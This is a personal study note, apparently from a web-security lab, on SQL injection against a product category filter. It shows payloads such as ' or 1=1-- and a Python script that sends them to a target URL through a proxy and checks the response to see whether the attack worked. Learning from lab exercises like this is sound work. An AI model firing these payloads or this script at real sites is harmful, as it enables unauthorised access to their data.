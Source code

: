 📅 **Date**: 18 February 25  
📂 **Category**: Web Security
🔒 **Topic**: SQL Injection
🏷️ Tags: #websecurity/sql-injection #websecurity 

---
![](../../06-Assets/sql_lab1.png)

SQL Injection - product, category, filter
-> `End Goal` display all products both release and unreleased.
```sql
SELECT * FROM products WHERE category = ''' AND released = 1

SELECT * FROM products WHERE category = ''' AND released = 1

SELECT * FROM products WHERE category = ''--' AND released = 1

SELECT * FROM products WHERE category = ''

SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1

```

## automated script:
🔽Here is the script where I can automated things.
```python
import requests
import sys
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Proxies configuration
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = 'filter?category='
    full_url = url + uri + payload
    try:
        r = requests.get(full_url, verify=False, proxies=proxies)
        if "Cat Grin" in r.text:
            return True
        else:
            return False
    except requests.exceptions.RequestException as e:
        print(f"[-] An error occurred: {e}")
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print(f"[-] Usage: {sys.argv[0]} <url> <payload>")
        print(f'[-] Example: {sys.argv[0]} www.example.com "1=1"')
        sys.exit(-1)

    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful!")
    